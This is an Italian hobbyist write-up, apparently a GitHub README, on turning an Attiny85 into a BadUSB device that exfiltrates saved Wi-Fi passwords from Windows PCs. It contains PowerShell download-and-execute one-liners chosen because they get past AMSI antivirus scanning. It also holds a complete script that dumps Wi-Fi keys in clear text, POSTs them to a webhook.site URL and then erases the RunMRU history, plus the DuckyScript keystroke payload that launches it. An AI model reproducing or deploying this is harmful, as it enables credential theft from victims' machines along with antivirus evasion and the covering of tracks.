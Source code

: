 ## Esfiltrazione delle chiavi wifi salvate in un computer e incidenti di percorso.

Visto che avevo un Attiny85 mi sono messo a giocare con badusb e sono ben presto caduto nelle grinfie del malefico AMSI (Antimalware Scan Interface), ho pensato quindi di scrivere due righe in base alla mia esperienza in merito
(*caveat emptor, non sono uno sviluppatore per cui non escludo errori in caso segnalatemelo*).

Gli stessi principi sono applicabili a Flipper Zero, USB Rubber ducky etc etc.

Quando un utente avvia uno script o inizializza un processo PowerShell (o PowerShell_ISE), viene caricata automaticamente la libreria AMSI.DLL che fornisce l’API necessaria per l’interazione con il software antivirus installato e predefinito. 
AMSI.DLL invia lo script o il comando all'antivirus prima dell’esecuzione, utilizzando una chiamata RPC; l'antivirus quindi analizza le informazioni ricevute e invia una risposta: se viene rilevata una firma nota, l’esecuzione viene interrotta e viene visualizzato un messaggio che indica che lo script è bloccato dal programma antivirus.

La funzionalità AMSI è integrata in questi componenti di Windows: 
- Controllo dell’account utente (elevazione di EXE, COM, MSI o installazione di ActiveX), 
- PowerShell (script, uso interattivo e valutazione dinamica del codice), 
- host script Windows (wscript.exe e cscript.exe), 
- JavaScript e VBScript, 
- Office macro VBA...

Ora, immaginiamo di voler eseguire uno script powershell remoto, caricato ad esempio su pastebin (un classico rickroll in questo caso).

Dai test che ho fatto:

```console
powershell -w h -NoP -NonI -ep Bypass -c iwr https://pastebin.com/raw/VGmUcTn6 | iex 
```

non funziona ma viene intercettato

```console
powershell -w h -NoP -NonI -ep Bypass -c iex((iwr https://pastebin.com/raw/VGmUcTn6).content) 
```
non funziona ma viene intercettato

```console
powershell -w h -NoP -NonI -ep Bypass -c "iex(New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/VGmUcTn6')"
```
**FUNZIONA!**

Testati:
- Microsoft Defender
- Kaspersky free
- more to come

Per maggiori dettagli fate riferimento a questo eccellente post:
https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/

Dalla KB di Kaspersky
https://support.kaspersky.com/KESWin/11.9.0/en-US/173854.htm

Soluzioni che interagiscono con AMSI:
https://github.com/subat0mik/whoamsi


Risolte le premessse, passiamo alla parte divertente, ovvero come estrarre le chiavi di autenticazione delle reti wifi salvate nel pc, tramite badusb.
Prima di tutto serve uno script powershell per estrarle:

```console
#credits to https://jocha.se/blog/tech/display-all-saved-wifi-passwords
#Extract WiFi network name and password, valid for Italian language systems, otherwise change that "Contenuto chiave"
netsh wlan show profiles | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Contenuto chiave\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} |  Format-Table -autosize | Out-File "$env:temp\Output.txt"

#Upload to webhook selected site (replace with your own)
iwr -Uri https://webhook.site/xxxxxxx-xxxxxxxxxx-xxxxxx -Method POST -infile "$env:temp\Output.txt"

#Cleanup of downloaded file and recent run history
rm "$env:temp\Output.txt"
cd HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\
rm .\RunMRU
```

Lo script powershell va modificato come desiderato (nell'output), salvato e caricato come file.ps1 nel vostro hosting preferito o messo su pastebin, se preferite.

Lo script badusb da eseguire per richiamare il powershell che ho usato è banale (occhio se usate pastebin a copiare il link al raw o ovviamente non andrà nulla:

```console
DEFAULTDELAY 200
DELAY 1000
GUI R
STRING powershell -w h -NoP -NonI -ep Bypass -c "iex(New-Object Net.WebClient).DownloadString('https://url_dello_script_o_link_al_raw_su_pastebin')"
ENTER
```

Viene lanciato Win+R, scritto il comando nella casella esegui (in maniera visibile) e c'è una finestra di powershell che compare, 
**quindi non è pensato per essere stealth**, ma siccome il nostro scopo non è illegale, la cosa non ci interessa vero?

Per lo sketch da caricare sull'attiny85 usate il geniale servizio di spacehun, [duckify.huhn.me](https://duckify.huhn.me), lasciategli una donazione se lo usate, se lo merita.

Io ho solo aggiunto una riga giusto alla fine:

```console
digitalWrite(1, HIGH);  // Turn the LED On
```
per accendere il led rosso quando ha finito.

Testato su Windows 10 e 11 in Italiano.

Have fun.
